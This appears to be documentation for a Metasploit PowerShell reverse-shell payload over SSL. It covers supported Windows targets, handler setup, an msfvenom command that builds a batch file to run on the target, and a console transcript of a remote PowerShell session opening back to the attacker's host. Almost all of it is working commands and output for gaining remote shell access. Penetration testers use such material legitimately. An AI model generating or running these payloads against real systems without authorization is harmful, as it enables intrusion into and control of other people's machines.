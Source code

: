 ## Vulnerable Application

This powershell payload is suitable for the following environments:

* Windows 2012
* Windows 10

Older versions of Windows (e.g Windows 7) may have issues establishing the SSL connection.
For these versions using the non-SSL payload (cmd/windows/powershell_reverse_tcp) is recommended.

## Verification Steps

1. Do: `use exploit/multi/handler`
2. Do: `set payload cmd/windows/powershell_reverse_tcp_ssl`
2. Do: `set LHOST [IP]`
3. Do: `set LPORT [PORT]`
4. Do: `run`

## Scenarios

### Generating a batch file with msfvenom

```
msfvenom -p cmd/windows/powershell_reverse_tcp_ssl LHOST=192.168.0.2 LPORT=4444 -o powershell_reverse_tcp_ssl.bat
```

The output batch file can be executed directly on the target, or pasted as a command.

### Example usage on Windows 10 target

```
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload cmd/windows/powershell_reverse_tcp_ssl
payload => cmd/windows/powershell_reverse_tcp_ssl
msf exploit(multi/handler) > set LHOST 192.168.0.2
LHOST => 192.168.0.2
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run
[*] Started reverse SSL handler on 192.168.0.2:4444
[*] Powershell session session 1 opened (192.168.0.2:4444 -> 192.168.0.2:49736 ) at 2021-11-02 13:01:28 +0000

msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

User @ DESKTOP-5E3GRS6
PS C:\Users\User> exit
[*] 192.168.0.2 - Powershell session session 1 closed.
```

## Options

### LOAD_MODULES

A list of powershell modules (separated by a commas) to download.


